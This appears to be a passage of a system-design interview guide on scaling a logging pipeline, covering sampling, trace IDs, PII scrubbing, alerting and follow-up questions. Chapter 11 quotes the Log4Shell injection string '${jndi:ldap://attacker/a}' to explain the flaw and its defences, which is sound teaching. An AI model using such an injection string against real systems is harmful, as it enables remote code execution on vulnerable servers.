Waypoint keeps growing — 3,000 hosts now, roughly **700,000 logs/sec** at peak, heading toward the scale where sampling stops being optional. This is documented at the extreme end: Facebook's own internal tooling (Scuba) treats sampling as mandatory at billions of events per second, not a nice-to-have. Even short of that scale, keeping 100% of everything in the hot tier is now costing more than some entire product teams' cloud budgets `[illustrative]`.

Obvious question: *does every DEBUG line actually need to survive?* No — almost nobody will ever read 99% of them. But you can't blindly delete all DEBUG either, because the 1% sitting inside the one trace that explains next week's outage genuinely matters, and you don't know in advance which 1% that'll be.

**The fix: priority-based sampling.** Keep 100% of ERROR/FATAL, always. Sample DEBUG and INFO hard. Worked number: at 1,000,000 logs/sec split roughly 70% DEBUG / 20% INFO / 7% WARN / 2% ERROR / 1% FATAL, sampling DEBUG at 1% and INFO at 10% while keeping WARN/ERROR/FATAL at 100% gives `(700K × 0.01) + (200K × 0.10) + 70K + 20K + 10K = 7K + 20K + 70K + 20K + 10K ≈ 127K logs/sec` — roughly a **7.9x reduction** in what actually gets stored, with zero loss of anything actionable. **The analogy: surveying a crowd instead of interviewing every single person.** A pollster doesn't need to ask all ten million residents to know a city's mood — a well-chosen sample tells the same story for a fraction of the cost, as long as you never accidentally skip the people who actually matter (here: never sample away the errors).

```mermaid
quadrantChart
    title Sampling strategy: cost saved vs. risk of losing the one line you needed
    x-axis Low cost saved --> High cost saved
    y-axis High signal risk --> Low signal risk
    quadrant-1 Best trade-off
    quadrant-2 Safe but expensive
    quadrant-3 Risky and cheap
    quadrant-4 Wastes both
    Uniform random: [0.5, 0.3]
    Priority/level-based: [0.75, 0.85]
    Tail-based (whole trace): [0.4, 0.9]
```

**New problem:** aggregate sampling protects steady-state cost, but it doesn't help reconstruct *one specific* customer's whole journey when they file a ticket. If 99% of DEBUG/INFO was randomly sampled away, and that one customer's request touched six services, most of the story for that one request can be missing — even though, in aggregate, nothing important was lost.

**How I'd say this in an interview:** "Priority sampling — 100% of ERROR/FATAL, hard-sample DEBUG/INFO — is how you cut ingestion cost 5-10x with zero loss of signal in aggregate, and it's the concrete answer whenever someone asks about Facebook-scale logging costs. But for reconstructing one specific request end-to-end, aggregate random sampling isn't enough — you want tail-based sampling, which keeps or drops a *whole trace* based on whether any span in it errored, not a random per-line coin flip."

---

## Chapter 10 — The claim ticket that survives clock skew

A customer gets double-charged. Support pulls logs by timestamp across auth-service, order-service, and payment-service to reconstruct what happened — but clocks drift slightly across a large fleet without perfectly disciplined NTP, a genuinely common issue, and two of the three hosts involved differ by about **400ms** `[illustrative]`. Sorted by raw timestamp, the payment-confirmation line appears to come *before* the order was even created — which is impossible. Worse: nothing in any of the three services' logs even says these three lines are about the same request in the first place.

Obvious question: *if you can't trust wall-clock order across machines, and the logs don't reference each other at all, how do you reconstruct one request's journey?* Stamp every log line touched by that one request with the same shared ID, generated once, at the very first hop.

**The fix: correlation/trace IDs.** A `trace_id` is generated once at the edge (the API gateway) and passed downstream on every call, with a `span_id` per hop. Query by `trace_id`, sort by span/parent order (causal order), never by wall-clock timestamp. This is exactly the mechanism Google's Dapper paper (2010) formalized for distributed tracing, and it's exactly why OpenTelemetry ships one SDK that stamps the same IDs into both logs and traces today. **The analogy: the claim ticket at a dry cleaner.** Every item from one drop-off gets the same ticket number stapled to it — even if the items get sorted onto different racks (different machines, different clocks) at different times, the ticket number, not the shelf's clock, is what lets you reassemble the exact same order later.



**New problem:** correlation IDs solve "which lines belong together," but nothing yet stops actively harmful or sensitive content from ending up inside the `message` field itself — and log messages, by nature, contain whatever the app was told to log, verbatim.

**How I'd say this in an interview:** "Wall-clock timestamps across machines can't be trusted for ordering — clock skew is a real, common issue at fleet scale. The fix is a correlation ID generated once at the edge and propagated on every downstream call, so you reconstruct causal order from the ID's span hierarchy, not from timestamps. It's the same idea Google's Dapper paper formalized, and it's why logging and tracing now share one SDK under OpenTelemetry."

---

## Chapter 11 — The radioactive log line

Two separate scares, about a year apart. **First:** a security review finds Waypoint's checkout logs have been writing full customer emails — and in a couple of cases, full card numbers — straight into the `message` field for months, a real and very common compliance exposure across the industry. **Second, and much scarier:** in December 2021, a real, disclosed vulnerability, **Log4Shell (CVE-2021-44228)**, showed that the widely-used Log4j logging library had a hidden remote-code-execution flaw — present in the code since 2013, disclosed 2021, CVSS score **10 out of 10** — triggered by a single crafted string like `${jndi:ldap://attacker/a}` appearing inside a log message, because Log4j evaluated lookups embedded in the text it was told to log. Any system that let user input reach a log line unescaped was potentially exploitable just by someone typing a malicious string somewhere it would eventually get logged.

Obvious question, twice: *how do you stop identifying data from sitting in plaintext logs forever, and how do you stop the logging pipeline itself from becoming an attacker's entry point?* Treat what's inside a log line the same way you'd treat any other untrusted, sensitive input — never execute it, never keep more of it than you need.

**The fix: scrub/hash/drop PII at the accumulator, before it ever leaves the host, and treat log content as data, never as code.** Keep logging libraries patched like any other dependency, and disable dangerous features (like Log4j's JNDI lookups) by default. **The analogy: mask what identifies, hash what correlates, drop what's radioactive.** An email address gets masked out of the message text entirely. A user ID gets one-way hashed, so logs for the same user can still be joined without exposing who they are. A card number or secret token is radioactive — it gets dropped before it's ever written anywhere, full stop, because no debugging convenience is worth that risk.



**New problem:** redacting and hashing protects data at rest going forward — but a customer can legally demand "delete everything you have on me" (GDPR Article 17), and by now that customer's data is smeared across hot indices, warm indices, cold Glacier archives, and however many backups exist. "Delete it" stopped being one `DELETE` statement a long time ago.

**How I'd say this in an interview:** "Log content is untrusted input — mask what identifies, hash what correlates, drop what's radioactive, and never let a log message get evaluated or interpolated, which is the permanent lesson from Log4Shell. GDPR erasure then forces a specific, separate piece of infrastructure: a privacy API that tombstones a user's data across every tier, and an audit log proving the deletion happened, all inside a 30-day SLA."

---

## Chapter 12 — One ERROR is noise, a trend is a page

With structured logs, indexing, and redaction all in place, the platform team wires up their first real alert: *"page on-call the instant any ERROR appears in checkout-service."* Within the first week, on-call gets paged **34 times** `[illustrative]` for isolated, self-recovering blips — one customer's card randomly declining is a normal, boring ERROR line, not an incident. On-call starts sleeping through pages, which is worse than having no alerting at all — a real incident gets missed in the noise a few weeks later.

Obvious question: *is a single log line, by itself, ever proof that something is actually wrong?* Almost never — a healthy system produces some errors constantly. What matters is whether the *rate* has changed.

**The fix: alert on a rate over a window, with a hold period to prevent flapping.** For example: "if the rate of ERROR logs for checkout-service over a 5-minute window exceeds 50/min, and that condition holds for 2 straight minutes, page." **The analogy: one spark vs. an actual fire.** A single spark off a grill is normal and expected — a smoke detector that pages the fire department for every spark is useless. One that watches for smoke sustained over a couple of minutes catches a real fire without drowning anyone in false alarms for the normal ones.



This closes the loop. With rate-based alerting on top of everything else — durable async shipping, Kafka decoupling, tiered storage, indexing, structured fields, backpressure shedding, sampling, trace IDs, PII scrubbing — Waypoint's pipeline now looks, component for component, exactly like the reference architecture: accumulator → pub-sub → filterer / error aggregator / alert aggregator / archiver → blob storage → indexer → search → visualizer, with an expiration checker sliding data hot → warm → cold → deleted. Every remaining knob (sample rate, retention days, quota size) is a dial on this same shape, not a new architecture waiting to be discovered.

**How I'd say this in an interview:** "Alert on rates over a window, never on a single event — one ERROR is noise, a sustained rate is a page, and the hold period is what stops flapping on a one-off blip. That's genuinely the last piece; everything before it was about getting data safely stored and searchable, and this is the one piece that makes the pipeline actually *tell you* something is wrong instead of just waiting to be asked."

---

## Where the story actually lands


Every real production logging system you'll design in an interview sits *somewhere* on this chain. The skill isn't reciting all twelve chapters — it's stopping where the stated requirements say to stop. A small internal tool with a handful of hosts might reasonably stop around Chapter 4. A regulated fintech logging pipeline has to reach Chapter 9, 10, and 11. If nobody's mentioned compliance or scale, walking all the way to Chapter 11 unprompted reads as padding, not depth.

---

## Grill me — adversarial follow-ups

**Q1: "Why not just make the shared logging database bigger and faster instead of adding Kafka?"**
Because that only buys headroom, not a fix — the moment fleet-wide log volume outgrows even a bigger box, you're back to the same wall, just later and after spending more on hardware. The real problem is coupling producers directly to one consumer's speed; Kafka removes that coupling entirely instead of just raising the ceiling.

**Q2: "If some log loss is genuinely acceptable, why bother with a durable local buffer and replication at all?"**
Because "some loss is acceptable" means a *small, bounded* loss window on rare failures — not routine loss on every ordinary deploy, which is what an in-memory-only buffer gives you. Durability moves you from "lose data constantly" to "lose at most a second's worth, only on an actual crash," which is a completely different risk profile.

**Q3: "Doesn't tiering to cold storage just mean you lose the ability to search old logs exactly when you need them most, like during an audit?"**
No — cold-tier data isn't deleted, it's just not sitting in a live, expensive search index; a restore job pulls it back, typically in minutes to hours. You're trading query latency for cost on data that's rarely read, and an audit can tolerate that latency in a way an active incident cannot.

**Q4: "Structured logging and indexing sound like the same thing — what's actually different?"**
Structured logging is about the *shape* of each line — JSON with named fields instead of a free-form sentence. Indexing is a separate layer built on top of that shape — an inverted index over specific fields so a search doesn't have to scan every line. You need structure first; indexing without structure has nothing reliable to index.

**Q5: "Priority sampling drops most DEBUG and INFO lines — isn't that just data loss with a nicer name?"**
It is data loss, and it's an honest one — the design bet is that almost none of that sampled-away volume was ever going to be read, and keeping 100% of WARN/ERROR/FATAL means nothing actionable is lost in aggregate. The real cost shows up for reconstructing one specific request end-to-end, which is exactly why tail-based sampling (keep or drop a whole trace, not a random line) exists as the alternative when you need that.

**Q6: "Trace IDs require every service to cooperate and propagate them — what happens if one service in the chain forgets?"**
That hop becomes a gap in the reconstructed timeline — you can still see everything before and after it, but that one service's internal steps are invisible by trace_id. This is why propagation is usually enforced at the framework/middleware layer (or by an OpenTelemetry auto-instrumentation agent) rather than left to each engineer to remember by hand.

**Q7: "Hashing a user ID instead of dropping it — is that actually safe, or just security theater?"**
It's a real, meaningful reduction in exposure, not theater — a one-way hash lets you join logs for the same user without a leaked log file directly revealing who that user is. It's not anonymization in the strict legal sense (a determined attacker with the original ID could still confirm a match), which is exactly why raw PII still gets masked separately, and secrets get dropped entirely rather than hashed.

**Q8: "Your alert rule pages after a 2-minute hold — couldn't a real incident's first 2 minutes be the most important ones to catch immediately?"**
For a genuinely severe spike, yes, so the threshold and hold period are tunable per severity, not one-size-fits-all — a catastrophic rate can page immediately while a moderate one waits out the hold to filter blips. The 2-minute hold specifically exists to kill false pages, not to slow down real ones; you'd tune it lower for higher-severity rules.

**Q9: "Given this whole story, if someone just says 'design a logging system' cold, where do you actually start?"**
Say the two things that shape almost everything downstream: logging must never block the request (async, off the critical path), and some bounded log loss is an acceptable design outcome, unlike a database. Then name the building blocks you're reusing — pub-sub for ingestion, blob storage for durability, a search index for query — and only go as deep into tiering, sampling, PII, and alerting as the stated requirements actually demand.

---

## Cheat sheet — one line per stop on the story

- **Local files, SSH+grep**: evidence scattered across ephemeral disks that can vanish before you ever reach them — the reason centralized shipping exists at all.
- **Async local agent**: logging must never sit on the request's critical path — hand off to a local buffer and return immediately, the waiter's-notepad move.
- **Durable local buffer (WAL)**: an in-memory-only buffer loses everything on a routine crash or deploy — write to disk before considering anything "received."
- **Kafka / pub-sub**: decouples producers from consumer speed entirely and absorbs bursts — built at LinkedIn in 2011 specifically for this problem.
- **Hot/warm/cost tiering**: keeping everything fully indexed forever grows cost unbounded — hot is for firefighting, warm is for last week, cold is for lawyers.
- **Structured logging**: unstructured text can't be searched, alerted on, or sampled intelligently — if it's not structured, it's not queryable.
- **Inverted index + time partitioning**: term → posting-list lookup beats scanning everything; one index per service per day makes both range queries and tier migration cheap.
- **Backpressure (shed-by-priority) + tenant quotas**: when the pipeline itself overloads, drop DEBUG/INFO first and never let one noisy tenant starve everyone else.
- **Priority sampling**: keep 100% of ERROR/FATAL, hard-sample DEBUG/INFO — a real ~7-8x cost cut with zero loss of actionable signal in aggregate.
- **Correlation/trace IDs**: wall-clock order across machines can't be trusted — a shared ID generated once at the edge is what actually reconstructs one request's true causal order.
- **PII/security (mask, hash, drop)**: treat log content as untrusted input, never execute or interpolate it — Log4Shell is the permanent lesson, GDPR erasure is the permanent obligation.
- **Rate-based alerting**: one ERROR is noise, a sustained rate over a window is a page — the hold period is what stops false pages on a one-off blip.
- **The meta-lesson**: every fix in this story buys one property (off the critical path, durability, throughput, cost control, queryability, search speed, survivability, cost at scale, causal correctness, safety, or signal-over-noise) by spending something else — say the trade in the same breath you propose the fix.
